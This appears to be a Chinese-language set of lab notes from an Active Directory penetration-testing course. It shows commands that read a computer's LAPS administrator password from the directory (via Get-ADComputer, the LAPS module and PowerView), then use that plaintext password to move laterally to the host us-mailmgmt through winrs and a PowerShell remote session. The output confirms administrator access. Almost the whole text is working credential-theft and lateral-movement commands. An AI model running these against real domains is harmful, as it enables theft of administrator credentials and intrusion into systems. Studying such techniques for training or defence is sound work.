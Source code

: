 # 读取LAPS密码

1. AD
```
Get-ADComputer -Identity us-mailmgmt -Properties ms-mcs-admpwd | select -ExpandProperty ms-mcs-admpwd
```

2. LAPS module(如果机器装了)
```
Get-AdmPwdPassword -ComputerName us-mailmgmt
```

3. pv
```
Get-DomainObject -Identity us-mailmgmt | select -ExpandProperty ms-mcs-admpwd
```


# 横向

1. winrs

cmd下
```
C:\Users\studentuser138>winrs -r:us-mailmgmt -u:.\administrator -p:/c}Jgsb!4t33.2 cmd
Microsoft Windows [Version 10.0.17763.2928]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Administrator>whoami
whoami
us-mailmgmt\administrator

C:\Users\Administrator>hostname
hostname
US-MailMgmt
```

2. powershell

使用明文密码建一个session
```
PS C:\ad\Tools> $passwd = ConvertTo-SecureString '/c}Jgsb!4t33.2' -AsPlainText -Force
PS C:\ad\Tools> $creds = New-Object System.Management.Automation.PSCredential ("us-mailmgmt\administrator", $passwd)
PS C:\ad\Tools> $mailmgmt = New-PSSession -ComputerName us-mailmgmt -Credential $creds
PS C:\ad\Tools> $mailmgmt

 Id Name            ComputerName    ComputerType    State         ConfigurationName     Availability
 -- ----            ------------    ------------    -----         -----------------     ------------
  1 WinRM1          us-mailmgmt     RemoteMachine   Opened        Microsoft.PowerShell     Available
```


[us-mailmgmt]: PS C:\Users\Administrator\Documents> whoami
[us-mailmgmt]: PS C:\Users\Administrator\Documents> hostname